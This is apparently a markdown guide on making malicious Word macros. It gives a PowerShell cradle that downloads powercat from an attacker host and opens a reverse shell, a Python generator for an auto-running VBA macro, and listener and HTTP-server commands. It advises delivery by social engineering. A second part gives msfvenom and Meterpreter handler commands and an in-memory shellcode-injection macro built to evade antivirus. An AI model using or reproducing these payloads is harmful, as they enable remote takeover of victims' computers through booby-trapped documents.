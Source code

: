### Process for generating malicious VBA Macro

1. Start with the following Powershell payload:
```powershell
$payload = "IEX(New-Object System.Net.WebClient).DownloadString('http://<OurIP>/powercat.ps1');powercat -c <OurIP> -p 4444 -e powershell"
```
2. Base64 Encode with Powershell (nb. you _will_ get a different result if you just `echo <payload> | base64` in Bash, use the code below):
```powershell
$b64EncodedPayload = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($payload))
$b64EncodedPayload
```
3. Feed the encoded payload as a command line arg to this Python script:
```python
import sys

print('''Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
''')
payload = f"powershell.exe -nop -w hidden -e {sys.argv[1]}"
n = 50
for i in range(0, len(payload), n):
    print(f'    Str = Str + \"{payload[i:i+n]}\"')
print('\n    CreateObject("Wscript.Shell").Run Str')
print('End Sub')
```
4. With our macro ready spin up a Windows machine that has office on it and create a Word doc with filetype `.doc`. This should be the 1997-2003 flavour. Then navigate to `View -> Macros`. Create a new macro in the file you've created and copy the macro we produced in step 3 into it.
5. If necessary exfiltrate the file via SCP:
```powershell
scp macro.doc kali@<our IP>:/home/kali
```
make sure an SSH server is running on the Kali machine:
```bash
sudo systemctl start ssh
```
6. Before distributing ensure an HTTP server is running in the same directory as a copy of `powercat.ps1`:
```bash
python3 -m http.server 80
```
and finally ensure a netcat listener is waiting for the shell:
```bash
nc -nvlp 4444
```
7. Distribute the payload via social engineering or file upload based vuln.

### A More Subtle Malicious VBA Macro

The approach above is good, but not very subtle. It involves writing a file to disk, and launching Powershell, which may be considered spicy by Antivirus and Defender or other countermeasures present on a machine. The most subtle approach we could possibly take is to make calls to Win32 APIs directly from VBA and to launch a staged payload. This keeps everything in memory, with minimal footprint for the initial payload, involving as few other applications as possible, and writing nothing to disk.

The major drawback is that once the victim closes the Office application running the macro the shell dies. We have traded subtlety for persistence.

First, get an `msfconsole` multi/handler ready to receive a staged payload, staged is now preferred since it means a much smaller initial payload that needs to be inserted into the macro. Commands to get the handler going are as follows:
```bash
sudo msfconsole -q
```
```bash
use multi/handler
```
```bash
set payload windows/x64/meterpreter/reverse_https
```
```bash
set lhost 192.168.0.1
```
```bash
set lport 443
```
```bash
exploit
```

Now, use `msfvenom` to generate a VBA compatible bit of shellcode
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 EXITFUNC=thread -f vbapplication
```
Copy the output of the above into the `buf = Array(20, 30,50, ...` section of the marco below. Our full malicious Macro is as follows:
```vba
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(20, 30, 40, ... )

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
